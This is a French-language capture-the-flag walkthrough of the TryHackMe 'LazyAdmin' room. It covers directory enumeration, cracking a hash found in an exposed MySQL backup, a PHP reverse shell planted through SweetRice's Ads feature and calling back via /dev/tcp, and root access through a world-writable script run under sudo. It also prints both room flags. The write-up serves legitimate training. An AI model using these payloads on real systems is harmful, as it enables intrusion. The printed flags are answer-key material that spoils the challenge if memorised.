---
tags:
  - Web
  - TryHackMe
  - Facile
  - Gobuster
  - SweetRice
---

# LazyAdmin - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Enumération, Exploitation Web, Privilege Escalation |
| **Prérequis** | Bases Linux, utilisation de Gobuster/Nmap, compréhension des reverse shells |

## Contexte et objectifs

Dans la room LazyAdmin, vous incarnez un attaquant qui doit compromettre un serveur web mal configuré. L’objectif est d’obtenir un accès initial via une faille web, puis d’escalader les privilèges pour devenir root.

!!! info "À propos de cette room"
    LazyAdmin est une excellente introduction à l’exploitation de failles web classiques : découverte de répertoires cachés, extraction de mots de passe dans des sauvegardes, exploitation d’un CMS vulnérable et élévation de privilèges via une mauvaise configuration sudo. Ces techniques sont fondamentales pour tout pentester.

## Méthodologie

### Étape 1 : Scan des ports pour identifier les services

Avant toute chose, il est essentiel de connaître les services exposés par la machine cible. Un scan complet des ports permet d’obtenir cette information.
```bash
nmap -sC -sV -p- <IP_cible>
```

!!! tip "Pourquoi ce scan ?"
    L’option `-sC` lance les scripts de détection par défaut, `-sV` identifie les versions, et `-p-` scanne tous les ports. Cela donne une vision complète des services accessibles.

[](./screen/LazyAdmin/WindowsTerminal_3TbqSjMbqZ.png)

Le scan révèle deux ports ouverts :
- **22/tcp** : SSH (OpenSSH 7.2p2)
- **80/tcp** : HTTP (Apache/2.4.18)

### Étape 2 : Exploration du site web et recherche de répertoires cachés

Le port 80 étant ouvert, la prochaine étape logique est de visiter le site web. On tombe sur la page par défaut d’Apache, ce qui indique qu’il faut chercher des contenus cachés.

Pour cela, on utilise un outil de brute-force de répertoires :
```bash
gobuster dir -u http://<IP_cible>/ -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.js
```

!!! info "Qu’est-ce que Gobuster ?"
    Gobuster est un outil qui permet de découvrir des fichiers et dossiers cachés sur un serveur web en testant de nombreux chemins à partir d’une wordlist.

!!! tip "Pourquoi préciser des extensions avec -x ?"
    Par défaut, Gobuster ne teste que des noms de répertoires sans extension. Le flag `-x .php,.html,.js` lui fait aussi tester chaque mot de la wordlist avec ces extensions, ce qui permet de trouver des fichiers individuels en plus des dossiers.

Cette commande révèle un dossier intéressant : `/content`.

[](./screen/LazyAdmin/WindowsTerminal_7zqXX6YlNL.png)

### Étape 3 : Enumération approfondie dans le répertoire /content

Maintenant que nous avons trouvé `/content`, il est pertinent de poursuivre l’énumération à l’intérieur de ce répertoire pour découvrir d’autres ressources cachées.
```bash
gobuster dir -u http://<IP_cible>/content/ -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.js
```

On découvre plusieurs sous-dossiers, notamment `/as`, page de connexion, et `/inc`, qui contient des fichiers de configuration et de sauvegarde.

[](./screen/LazyAdmin/WindowsTerminal_FE7qcI8RcV.png)

### Étape 4 : Analyse des fichiers de sauvegarde MySQL

En visitant `http://<IP_cible>/content/inc/` dans le navigateur, on parcourt le contenu du répertoire. Le dossier `mysql_backup/` attire immédiatement l’attention : une sauvegarde de base de données exposée publiquement peut contenir des identifiants.

[](./screen/LazyAdmin/QZGFvfOEDP.png)

En parcourant ce dossier, on trouve un fichier de sauvegarde SQL.

[](./screen/LazyAdmin/msrdc_Ukv9NHikQC.png)

Téléchargeons-le et examinons son contenu :
```bash
wget http://<IP_cible>/content/inc/mysql_backup/<nom_du_fichier>.sql
cat <nom_du_fichier>.sql
```

En parcourant le fichier, on trouve un identifiant et un mot de passe hashé pour un utilisateur nommé `manager` :
```
manager : 42f749ade7f9e195bf475f37a44cafcb
```

[](./screen/LazyAdmin/BzwcE8dGAY.png)

### Étape 5 : Craquage du mot de passe hashé

Pour exploiter ces identifiants, il faut d’abord craquer le hash. On utilise un outil en ligne comme CrackStation ou John the Ripper.

Le hash MD5 `42f749ade7f9e195bf475f37a44cafcb` correspond à :
```
Password123
```

[](./screen/LazyAdmin/4NqN2JKdNg.png)

!!! success "Réponse"
    **Identifiants CMS** → `manager : Password123`

### Étape 6 : Connexion au CMS SweetRice

Maintenant que nous avons des identifiants valides, connectons-nous à l’interface d’administration du CMS à l’adresse `/as` identifiée précédemment lors du scan Gobuster :
```
http://<IP_cible>/content/as/
```
[](./screen/LazyAdmin/msrdc_YyxwwTFuYG.png)

Une fois connecté, on accède au tableau de bord du CMS SweetRice.

### Étape 7 : Recherche d’un vecteur d’exécution de code (upload ou injection)

Le but est maintenant d’obtenir une exécution de code sur le serveur. Plusieurs options existent selon les versions de SweetRice :
Upload de fichiers malveillants via le Media Center ou via la gestion des publicités.

Dans ce dernier cas, la fonctionnalité “Ads” permet d’insérer du code PHP. On crée une nouvelle publicité avec le code suivant :
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<VOTRE_IP>/<port> 0>&1'"); ?>
```
On sauvegarde, puis on prépare un listener sur notre machine :
```bash
nc -lvnp <port>
```
Enfin, on accède à l’URL du fichier généré pour déclencher le reverse shell :
```
http://<IP_cible>/content/inc/ads/<nom_de_l_ad>.php
```

[](./screen/LazyAdmin/msrdc_zsUbq1gwJC.png)

!!! info "Qu’est-ce qu’un reverse shell ?"
    Un reverse shell est un script qui force la machine cible à se connecter à l’attaquant, donnant ainsi un accès à distance à un shell.

On obtient alors un shell en tant que `www-data`.

[](./screen/LazyAdmin/WindowsTerminal_S0yae12nqL.png)

### Étape 8 : Stabilisation du shell

Le shell obtenu via netcat est souvent limité. Pour le rendre plus confortable, on tape les commandes suivantes :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

!!! tip "Pourquoi stabiliser le shell ?"
    Un shell interactif permet d’utiliser des fonctionnalités comme l’autocomplétion, la coloration syntaxique et la gestion correcte des touches.

### Étape 9 : Recherche de privilèges sudo

Pour obtenir un accès root, il faut maintenant chercher des failles de configuration. On vérifie les droits sudo :
```bash
sudo -l
```
On découvre que l’utilisateur peut exécuter le script `/home/itguy/backup.pl` en tant que root via sudo.

[](./screen/LazyAdmin/2QPYgsfzRc.png)

### Étape 10 : Analyse et exploitation du script backup.pl

Jetons un œil au contenu du script :
```bash
cat /home/itguy/backup.pl
```
[](./screen/LazyAdmin/WindowsTerminal_ZYkJESkO1i.png)

Ce script exécute `/etc/copy.sh`. Vérifions les permissions sur ce fichier :
```bash
ls -l /etc/copy.sh
```
[](./screen/LazyAdmin/WindowsTerminal_Us42U1GvMf.png)

La sortie affiche des permissions de type `-rw-r--rwx` : le groupe "other" dispose des droits `rwx`, donc le fichier est modifiable par n'importe quel utilisateur du système, y compris `www-data`.

On peut donc remplacer son contenu par une commande qui nous donnera un shell root. Par exemple :
```bash
echo "/bin/bash -p" > /etc/copy.sh
```
Puis on exécute le script avec sudo :
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
On obtient alors un shell root.

[](./screen/LazyAdmin/WindowsTerminal_SCeYZNP75X.png)

!!! warning "Attention à la sécurité"
    Ce type de faille (droits d’écriture sur un script exécuté en sudo) est une des plus critique possible.

### Étape 11 : Récupération des flags

Il ne reste plus qu’à lire les fichiers de flag :
```bash
cat /home/itguy/user.txt
cat /root/root.txt
```

[](./screen/LazyAdmin/WindowsTerminal_yWS2ZUHUSt.png)

!!! success "Réponses"
    **user.txt** → `THM{63e5bce9271952aad1113b6f1ac28a07}`  
    **root.txt** → `THM{6637f41d0177b6f37cb20d775124699f}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Backup MySQL exposé, exécution de code via CMS, droits sudo mal configurés |
| **Techniques utilisées** | Enumération web, reverse shell, privilege escalation via script modifiable |
| **Outils employés** | Nmap, Gobuster, CrackStation, Netcat, Python |

!!! abstract "Ce qu'il faut retenir"
    1. Toujours explorer les répertoires cachés d’un site web, ils révèlent souvent des failles.
    2. Les sauvegardes exposées peuvent contenir des identifiants critiques.
    3. Les droits sudo mal configurés sur des scripts modifiables permettent une élévation de privilèges directe.

